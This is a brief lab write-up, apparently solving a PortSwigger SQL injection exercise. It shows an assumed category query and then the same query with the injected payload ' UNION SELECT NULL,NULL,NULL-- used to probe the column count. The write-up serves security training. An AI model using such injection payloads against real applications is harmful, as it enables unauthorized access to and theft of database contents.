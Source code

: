 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5086ef31-864a-4e3f-a5b1-8f27bf57b35c)

## Solution :

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL,NULL--
```
